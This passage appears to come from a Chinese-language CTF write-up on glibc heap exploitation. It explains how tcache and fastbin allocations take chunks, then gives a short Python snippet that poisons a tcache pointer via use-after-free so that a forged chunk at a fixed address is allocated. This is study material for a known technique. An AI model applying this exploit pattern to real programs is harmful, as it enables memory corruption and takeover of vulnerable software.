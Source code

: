 

如果这时候再add一个0x68大小的堆块，在tcachebins中会分走头部的堆块，结果如下，把原来头部260的分走了


![upload successful](/images/pasted-61.png)


在fastbin中，会分走尾部的堆块。



再次申请，就会把我们刚才构造的那个堆块分走

```python
add(0,0x68)
add(1,0x68)
add(2,0x68)
free(0)
edit(0,0x20,p64(0x6032d0))
add(0,0x68)
add(3,0x68)
```




![upload successful](/images/pasted-62.png)
